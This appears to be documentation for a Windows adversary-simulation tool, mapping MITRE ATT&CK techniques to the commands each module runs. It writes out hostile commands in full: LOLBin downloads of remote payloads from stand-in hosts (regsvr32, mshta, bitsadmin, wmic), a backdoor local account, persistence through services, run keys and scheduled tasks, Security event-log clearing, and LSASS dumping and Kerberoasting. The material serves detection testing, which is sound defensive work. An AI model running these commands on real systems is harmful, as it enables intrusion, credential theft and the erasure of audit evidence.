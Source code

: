 Techniques
^^^^^^^^^^

=============================================
Command and Scripting Interpreter: PowerShell
=============================================

T1059.001_

.. _T1059.001: https://attack.mitre.org/techniques/T1059/001/

Variation 1
-----------

| This module uses the Win32 API CreateProcess to execute a specific command: 
| **powershell -enc UwB0AGEAcgB0AC0AUwBsAGUAZQBwACAALQBzACAAMgAwAA==**

Variation 2
-----------

This module uses the the System.Management.Automation .NET namespace to execute the same script.

========================================================
Command and Scripting Interpreter: Windows Command Shell
========================================================

T1059.003_

.. _T1059.003: https://attack.mitre.org/techniques/T1059/003/

| This module uses the Win32 API CreateProcess to execute a specific command: 
| **cmd.exe /C whoami**

===============================================
Command and Scripting Interpreter: Visual Basic
===============================================

T1059.005_

.. _T1059.005: https://attack.mitre.org/techniques/T1059/005/

| This module uses the Win32 API CreateProcess to execute a specific command: 
| **wscript.exe invoice0420.vbs**


=====================================================
Command and Scripting Interpreter: JavaScript/JScript
=====================================================

T1059.007_

.. _T1059.007: https://attack.mitre.org/techniques/T1059/007/

| This module uses the Win32 API CreateProcess to execute a specific command: 
| **wscript.exe invoice0420.js**

==================================
System Services: Service Execution
==================================

T1569.002_

.. _T1569.002: https://attack.mitre.org/techniques/T1569/002/

| This module uses the Win32 API CreateProcess to execute a specific command: 
| **net start UpdaterService**

===================================
Scheduled Task/Job: Scheduled Task
===================================

T1053.005_

.. _T1053.005: https://attack.mitre.org/techniques/T1053/005/

| This module uses the Win32 API CreateProcess to execute a specific command: 
| **SCHTASKS /CREATE /SC DAILY /TN BadScheduledTask /TR "C:\Windows\Temp\xyz12345.exe" /ST 13:00**


=============================
Create Account: Local Account
=============================

T1136.001_

.. _T1136.001: https://attack.mitre.org/techniques/T1136/001/


Variation 1
-----------

| This module uses the Win32 API NetUserAdd to create a local account.

Variation 2
-----------

| This module uses the Win32 API CreateProcess to execute a specific command: 
| **net user hax0r Passw0rd123El7 /add**

================================================
Create or Modify System Process: Windows Service
================================================
T1543.003_

.. _T1543.003: https://attack.mitre.org/techniques/T1543/003/


Variation 1
-----------

| This module uses the Win32 API CreateService to create a Windows Service.

Variation 2
-----------

| This module uses the Win32 API CreateProcess to execute a specific command: 
| **sc create UpdaterService binpath= C:\Windows\Temp\superlegit.exe type= own start= auto**

====================================================
Boot or Logon Autostart Execution: Registry Run Keys
====================================================
T1547.001_

.. _T1547.001: https://attack.mitre.org/techniques/T1547/001/


Variation 1
-----------

| This module uses the the Microsoft.Win32 .NET namespace to create a Registry Key.

Variation 2
-----------

| This module uses the Win32 API CreateProcess to execute a specific command: 
| **REG ADD HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /V BadApp /t REG_SZ /F /D C:\Windows\Temp\xyz12345.exe**

================================================================================
Event Triggered Execution: Windows Management Instrumentation Event Subscription
================================================================================
T1546.003_

.. _T1546.003: https://attack.mitre.org/techniques/T1546/003/


|  This module uses the System.Management .NET namespace to create the main pieces of a WMI Event Subscription: an Event Filter, an Event Consumer and a FilterToConsumerBinding.

=======================================
Signed Binary Proxy Execution: Regsvr32
=======================================
T1218.010_

.. _T1218.010: https://attack.mitre.org/techniques/T1218/010/


| This module uses the CreateProcess Win32 API to execute
| **regsvr32.exe /u /n /s /i:http://malicious.domain:8080/payload.sct scrobj.dll**


=============================================
Signed Binary Proxy Execution: Regsvcs/Regasm
=============================================
T1218.009_

.. _T1218.009: https://attack.mitre.org/techniques/T1218/009/


| This module uses the CreateProcess Win32 API to execute
| **C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe /U winword.dll**

==========================================
Signed Binary Proxy Execution: InstallUtil
==========================================
T1218.004_

.. _T1218.004: https://attack.mitre.org/techniques/T1218/004/


| This module uses the CreateProcess Win32 API to execute
| **C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfiles /LogToConsole=alse /U C:\Windows\Temp\XKNqbpzl.exe**

=======================================
Deobfuscate/Decode Files or Information
=======================================
T1140_

.. _T1140: https://attack.mitre.org/techniques/T1140/


| This module uses the CreateProcess Win32 API to execute
| **certutil.exe -decode encodedb64.txt decoded.exe**

====================================
Signed Binary Proxy Execution: Mshta
====================================
T1218.005_

.. _T1218.005: https://attack.mitre.org/techniques/T1218/005/


| This module uses the CreateProcess Win32 API to execute
| **mshta.exe http://webserver/payload.hta**


====================================
Signed Binary Proxy Execution: CMSTP
====================================
T1218.003_

.. _T1218.003: https://attack.mitre.org/techniques/T1218/003/


| This module uses the CreateProcess Win32 API to execute
| **cmstp.exe /s /ns C:\Users\Administrator\AppData\Local\Temp\XKNqbpzl.txt**

=========
BITS Jobs
=========
T1197_

.. _T1197: https://attack.mitre.org/techniques/T1197/


| This module uses the CreateProcess Win32 API to execute
| **bitsadmin.exe /transfer job /download /priority high http://web.evil/sc.exe C:\Windows\Temp\winword.exe**

=======================================
Signed Binary Proxy Execution: Rundll32
=======================================
T1218.011_

.. _T1218.011: https://attack.mitre.org/techniques/T1218/011/

| This module uses the CreateProcess Win32 API to execute
| **rundll32.ex C:\Windows\twain_64.dll**


===================================================
Indicator Removal on Host: Clear Windows Event Logs
===================================================
T1070.001_

.. _T1070.001: https://attack.mitre.org/techniques/T1070/001/

Variation 1
-----------

| This module uses the System.Diagnostics .NET namespace to delete the Security Event Log.

Variation 2
-----------

| This module uses the Win32 API CreateProcess to execute a specific command: 
| **wevtutil.exe cl Security**

=====================
XSL Script Processing
=====================
T1220_

.. _T1220: https://attack.mitre.org/techniques/T1220/

| This module uses the CreateProcess Win32 API to execute
| **wmic.exe os get /FORMAT "http://webserver/payload.xsl":**


================================================
Process Injection: Portable Executable Injection
================================================
T1055.002_

.. _T1055.002: https://attack.mitre.org/techniques/T1055/002/

| This module uses the CreateProcess, OpenProcess, VirtualAllocEx, WriteProcessMemory and CreateRemoteThread Win32 API functions to inject an innocuous shellcode.

==============================================
Process Injection: Asynchronous Procedure Call
==============================================
T1055.004_

.. _T1055.004: https://attack.mitre.org/techniques/T1055/004/

| This module uses the CreateProcess, OpenProcess, VirtualAllocEx, WriteProcessMemory and QueueUserAPC Win32 API functions to inject an innocuous shellcode.

==============================
Brute Force: Password Spraying
==============================
T1110.003_

.. _T1110.003: https://attack.mitre.org/techniques/T1110/003/

Variation 1
-----------

| This module uses the LogonUser Win32 API to test a single password across random users obtained via LDAP.

Variation 2
-----------

| This module uses the WNetAddConnection2 Win32 API to test a single password across random users and random hosts obtained via LDAP.

==============================================
Steal or Forge Kerberos Tickets: Kerberoasting
==============================================
T1558.003_

.. _T1558.003: https://attack.mitre.org/techniques/T1558/003/

| This module uses the KerberosRequestorSecurityToken Class to obtain Kerberos service tickets.

===================================
OS Credential Dumping: LSASS Memory
===================================
T1003.001_

.. _T1003.001: https://attack.mitre.org/techniques/T1003/001/

| This module uses the GetProcessesByName and MiniDumpWriteDump Win32 API functions to create a memory dump of the lsass.exe process.

======================================
System Network Configuration Discovery
======================================
T1016_

.. _T1016: https://attack.mitre.org/techniques/T1016/


| This module uses the CreateProcess Win32 API to execute
| **ipconfig.exe /all"**

============================
File and Directory Discovery
============================
T1083_

.. _T1083: https://attack.mitre.org/techniques/T1083/


| This module uses the CreateProcess Win32 API to execute
| **dir.exe c:\ >> %temp%\download**
| **dir.exe C:\Users\ >> %temp%\download**

=======================
Network Share Discovery
=======================
T1135_

.. _T1135: https://attack.mitre.org/techniques/T1135/

| This module uses the NetShareEnum Win32 API function to enumerate shared on remote endpoints randomly picked using LDAP.

========================
Network Service Scanning
========================
T1046_

.. _T1046: https://attack.mitre.org/techniques/T1046/

| This module uses the  System.Net.Sockets .NET namespace to scan ports on remote endpoints randomly picked using LDAP.

================================
Account Discovery: Local Account
================================
T1087.001_

.. _T1087.001: https://attack.mitre.org/techniques/T1087/001/

| This module uses the CreateProcess Win32 API to execute
| **net.exe user**


=================================
Account Discovery: Domain Account
=================================
T1087.002_

.. _T1087.002: https://attack.mitre.org/techniques/T1087/002/

Variation 1
-----------

| This module uses the Sytem.DirectoryServices .NET NameSpace to query a domain environment using LDAP.

Variation 2
-----------

| This module uses the CreatePRocess Win32 API to execute:
| **net.exe user /domain**

========================
System Service Discovery
========================
T1007_

.. _T1007: https://attack.mitre.org/techniques/T1007/

| This module uses the CreateProcess Win32 API to execute
| **net.exe start**
| **tasklist.exe /svc**

===========================
System Owner/User Discovery
===========================
T1033_

.. _T1033: https://attack.mitre.org/techniques/T1033/

| This module uses the CreateProcess Win32 API to execute
| **whoami.exe**
| **query user**

====================================
System Network Connections Discovery
====================================
T1049_

.. _T1049: https://attack.mitre.org/techniques/T1049/

| This module uses the CreateProcess Win32 API to execute
| **netstat.exee**
| **net.exe use**
| **net.exe sessions**

==========================================
Remote Services: Windows Remote Management
==========================================
T1021.006_

.. _T1021.006: https://attack.mitre.org/techniques/T1021/006/

| This module uses System.Management.Automation .NET namespace to execute commands on randomly picked remote hosts using WinRM.